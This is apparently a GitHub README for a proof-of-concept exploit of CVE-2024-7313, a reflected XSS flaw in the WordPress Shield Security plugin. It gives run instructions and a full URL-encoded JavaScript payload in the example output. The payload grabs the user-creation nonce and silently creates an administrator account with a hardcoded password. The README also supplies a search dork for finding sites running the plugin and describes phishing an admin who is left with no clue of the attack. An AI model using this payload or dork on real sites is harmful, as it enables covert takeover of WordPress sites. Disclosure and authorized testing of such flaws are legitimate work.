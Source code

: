 
# Shield Security Plugin Vulnerability Exploit (CVE-2024-7313)

![Kali Linux](https://img.shields.io/badge/Kali%20Linux-Yes-blue?style=flat&logo=kalilinux)
![Works on My Machine](https://img.shields.io/badge/works-on%20my%20machine-green.svg)
![Sleep Deprivation](https://img.shields.io/badge/sleep-deprived-yellow.svg)

## Overview

This repository contains a Python PoC script designed to exploit a reflected XSS vulnerability in the Shield Security Plugin for WordPress, affecting versions below 20.0.6. The vulnerability (CVE-2024-7313) allows an attacker to create malicious link custom to the target which when an admin clicks on it, the exploit will create an unauthorized admin account via XSS. The script automatically detects vulnerable installations and generates a payload to exploit the vulnerability.

## Vulnerability Information

- **CVE**: CVE-2024-7313
- **Plugin**: Shield Security < 20.0.6
- **Severity**: High
- **Affected Systems**: WordPress websites using Shield Security plugin versions < 20.0.6
- **Attack Type**: Reflected Cross-Site Scripting (XSS)
- **Published Date**: August 7, 2024
- **OWASP TOP-10**: A7: Cross-Site Scripting (XSS)

## Usage

### Prerequisites

- Python 3.x
- `requests` and `beautifulsoup4` libraries

Install the required libraries using:

```bash
pip install requests beautifulsoup4
```

### Running the Script

1. Clone the repository:

```bash
git clone https://github.com/Wayne-Ker/CVE-2024-7313.git
cd CVE-2024-7313
```

2. Run the script with the target URL:

```bash
python3 exploit.py <target_url>
```

Example:

```bash
python3 exploit.py http://127.0.0.1
```

After entering the necessary details for the new admin user (username, email, first name, last name), the script will generate a payload URL. You can paste this URL into your browser to execute the reflected XSS attack, which will create a new admin user in the WordPress site.

3. Example Output:

```
#############################################################################
#                                                                           #
#                                                                           #
#   ______     _______     ____   ___ ____  _  _       _____ _____ _ _____  #
#  / ___\ \   / | ____|   |___ \ / _ |___ \| || |     |___  |___ // |___ /  #
# | |    \ \ / /|  _| _____ __) | | | |__) | || |_ _____ / /  |_ \| | |_ \  #
# | |___  \ V / | |__|_____/ __/| |_| / __/|__   _|_____/ /  ___) | |___) | #
#  \____|  \_/  |_____|   |_____|\___|_____|  |_|      /_/  |____/|_|____/  #
#                                                                           #
#    Shield Security Plugin Vulnerability (CVE-2024-7313)                   #
#    Reflected XSS in WordPress Shield Security Plugin                      #
#    Versions Affected: < 20.0.6                                            #
#    Risk: High                                                             #
#    Developed by: Wayne-Kerr                                              #
#    Published: August 7, 2024                                              #
############################################################################# 
Shield Security version is vulnerable. Let's continue.
Enter username: fakename
Enter email: fake-email@test.com
Enter first name: Haxor
Enter last name: test

Using hardcoded password: HaxorStrongAFPassword123!!

Generated XSS Payload URL: http://127.0.0.1/wp-admin/admin.php?page=icwp-wpsf-plugin&nav=dashboard&nav_sub=%3Cscript%3Evar%20xhrNonce%20%3D%20new%20XMLHttpRequest%28%29%3B%20xhrNonce.open%28%27GET%27%2C%20%27/wp-admin/user-new.php%27%2C%20true%29%3B%20xhrNonce.onload%20%3D%20function%28%29%20%7B%20if%20%28xhrNonce.status%20%3D%3D%3D%20200%29%20%7B%20var%20nonce%20%3D%20xhrNonce.responseText.match%28/name%3D%22_wpnonce_create-user%22%20value%3D%22%28%5Ba-zA-Z0-9%5D%2B%29%22/%29%5B1%5D%3B%20var%20xhr%20%3D%20new%20XMLHttpRequest%28%29%3B%20xhr.open%28%27POST%27%2C%20%27/wp-admin/user-new.php%27%2C%20true%29%3B%20xhr.setRequestHeader%28%27Content-Type%27%2C%20%27application/x-www-form-urlencoded%27%29%3B%20xhr.setRequestHeader%28%27Referer%27%2C%20%27http%3A//127.0.0.1/wp-admin/user-new.php%27%29%3B%20xhr.setRequestHeader%28%27Origin%27%2C%20%27http%3A//127.0.0.1%27%29%3B%20var%20params%20%3D%20%27action%3Dcreateuser%26_wpnonce_create-user%3D%27%20%2B%20nonce%20%2B%20%27%26_wp_http_referer%3D%252Fwp-admin%252Fuser-new.php%26user_login%3Dnick%26email%3Dnick%2540test.com%26first_name%3Dnick%26last_name%3Dtest%26url%3Dtest%26pass1%3DHaxorStrongAFPassword123%2521%2521%26pass2%3DHaxorStrongAFPassword123%2521%2521%26role%3Dadministrator%26createuser%3DAdd%2BNew%2BUser%27%3B%20xhr.send%28params%29%3B%20xhr.onload%20%3D%20function%28%29%20%7B%20if%20%28xhr.status%20%3D%3D%20200%29%20%7B%20console.log%28%27Admin%20user%20created%20successfully%27%29%3B%20window.location.href%20%3D%20%27http%3A//127.0.0.1/wp-admin/admin.php%3Fpage%3Dicwp-wpsf-plugin%26nav%3Ddashboard%26nav_sub%3Doverview%27%3B%20%7D%20else%20%7B%20console.log%28%27Error%20occurred%3A%20%27%20%2B%20xhr.statusText%29%3B%20%7D%20%7D%3B%20%7D%20else%20%7B%20console.log%28%27Error%20fetching%20nonce%3A%20%27%20%2B%20xhrNonce.statusText%29%3B%20%7D%20%7D%3B%20xhrNonce.send%28%29%3B%3C/script%3E
```

Once you visit the generated XSS payload URL, the exploit will be executed, and a new admin user will be created on the target WordPress site.

### Help Menu

You can access the help menu by running:

```bash
python3 exploit.py -h
```

### Dork to Find Vulnerable Sites

To identify websites that are using the vulnerable plugin, you can use the following dork:

```
inurl:"/wp-content/plugins/wp-simple-firewall/"
```

This will help you find websites that have the Shield Security plugin installed. Please note that the version number is not publicly visible, so manual testing may be required.

## How It Works

- The script first checks if the target WordPress installation is using a vulnerable version of the Shield Security plugin by examining the response from the `wp-login.php` page.
- If the plugin version is vulnerable, it proceeds to generate a reflected XSS payload that, when executed, will create a new admin user with a hardcoded password.
- The payload is created to first use a GET request to dynamically find the WordPress nonce used for account creation, then use that nonce to submit a POST request to the user creation endpoint with the details of the new user given in the script. 
- The payload is then URL-encoded and displayed for use in the attack.
- Once sent to an administrator of the site and the link is clicked, a new Administrator user will be created on the site with the details parsed by the script. This is all done in the background, with the phished administrator being redirected to the Shield Security dashboard with no clue of the exploit in the background. 

## Disclaimer

This tool is intended for educational purposes only and should only be used in authorized penetration testing environments. Unauthorized access or use of systems you do not own is illegal. The author is not responsible for any misuse of this tool.

## License

This project is licensed under the MIT License.
.

